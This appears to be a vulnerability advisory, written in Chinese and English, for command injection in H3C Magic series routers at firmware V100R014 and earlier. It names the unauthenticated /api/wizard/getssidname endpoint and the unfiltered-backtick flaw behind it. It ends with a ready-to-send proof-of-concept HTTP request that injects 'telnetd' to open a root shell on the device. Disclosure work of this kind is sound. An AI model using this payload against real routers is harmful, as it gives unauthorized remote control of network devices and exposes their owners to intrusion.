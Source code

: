 ## Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Guan Qing Wen(2144987805@qq.com)

**Affected products:** H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro

**Affected firmware version:** <=V100R014 (Taking NX15 as an example.)

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

## Overview

在 `H3C` 的 `Magic` 系列产品中 `H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro` ，允许攻击者在未授权情况下向 `/api/wizard/getssidname` 路由发送构造的特定 `POST` 数据包，实现获取设备最高权限。

## Vulnerability details

在 `api` 文件中的 `FCGI_WizardProcess` 函数存在路由 `/api/wizard/getssidname` ，可以触发对应的处理函数

![image-20250314162137974](https://raw.githubusercontent.com/Qwen11/picture/main/202503141621068.png)

因为危险字符忘记过滤反引号，导致命令注入

![QQ_1741940712383](https://raw.githubusercontent.com/Qwen11/picture/main/202503141625827.png)

## Poc

```
POST /api/wizard/getssidname HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```


